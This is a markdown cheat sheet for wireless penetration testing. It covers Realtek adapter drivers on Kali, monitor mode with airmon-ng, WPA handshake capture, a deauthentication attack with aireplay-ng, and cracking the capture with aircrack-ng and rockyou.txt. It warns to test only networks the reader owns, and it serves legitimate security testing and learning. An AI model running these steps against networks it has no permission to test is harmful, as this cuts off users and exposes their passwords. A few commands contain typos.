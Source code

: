 # Wireless Penetration Testing

## Installing Drivers AWUS036ACH on Kali 2022.2

[AirCrack-NG GitLab RTL8812AU](https://github.com/aircrack-ng/rtl8812au)

```
sudu su
apt-get update
apt-get upgrade
apt-get dist-upgrade
reboot
apt-get install realtek-rtl88xxau-dkms
apt-get install dkms
git clone https://github.com/aircrack-ng/rtl8812au.git
cd rtl8812au/
make
make install
```

## Check if adapter is on
```
airmon-ng
```

## Check other services
```
airmon-ng check
```

## Check kill services (could interfere with monitor mode)
```
airmon-ng check kill
```

## Check if adapter is available
```
iwconfig
```

## Start airmon-ng <interface>
```
airmon-ng start wlan0
iwconfig

At this point, should see our wlan0 card in monitor mode (wlan0mon)
```

## See what Access Points are running
```
airodump-ng wlan0
Ctrl + C to stop
```

## Capture Handshake
- **(NOTE: This is for testing purposes only, do NOT capture packets for wireless networks that you don't own)**

```
airodump --bssid <mac address of ap> --channel <id> wlan0 --output-format pcap --write <name of pcap>
```

## Deauthentication Attack
- **(NOTE: This is for testing purposes only, do NOT capture packets for wireless networks that you don't own)**
```
aireplay-ng -0 1 -a <mac addredss of ap> -c <mac address of client> wlan0
```

## Stop airomon-ng <interface>
```
airmon-ng stop wlan0
```

## Audit password strength of captured network hash
- **(NOTE: This is for testing purposes only, do NOT capture packets for wireless networks that you don't own)**
```
aircrack-ng <name of pcap> -w /usr/share/wordlists/rockyou.txt
```